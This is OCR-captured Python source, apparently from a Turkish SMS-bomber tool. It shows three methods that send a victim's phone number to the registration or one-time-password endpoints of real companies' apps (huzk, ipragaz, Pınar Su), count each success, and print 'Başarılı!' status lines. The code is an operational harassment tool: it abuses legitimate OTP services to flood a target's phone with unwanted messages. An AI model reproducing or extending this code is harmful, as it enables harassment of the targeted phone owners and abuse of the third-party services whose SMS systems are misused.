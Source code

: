    #signalall
    def signalall(self):
     try:
        url = "https://appservices.huzk.com/client/register"
        payload = {
            "name": "",
            "phone": {
                "number": f"{self.phone}",
                "code": "90",
                "country_code": "TR",
                "name": ""
            },
            "countryCallingCode": "+90",
            "countryCode": "TR",
            "approved": True,
            "notifyType": 99,
            "favorites": [],
            "appKey": "live-exchange"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> signalall")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> signalall")

    #goyakit
    def goyakit(self):
     try:
        url = f"https://gomobilapp.ipragaz.com.tr/api/v1/0/authentication/sms/send?phone={self.phone}&isRegistered=false"
        r = requests.get(url=url, timeout=5)
        r1 = json.loads(r.text)["data"]["success"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")

    #pinar
    def pinar(self):
     try:
        url = "https://pinarsumobileservice.yasar.com.tr/pinarsu-mobil/api/Customer/SendOtp"
        payload = {
            "MobilePhone" : f"{self.phone}"
        }
        headers = {
            "devicetype" : "android",
        }
        r = requests.post(url=url, headers=headers, json=payload, timeout=5)
        if r.text == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")
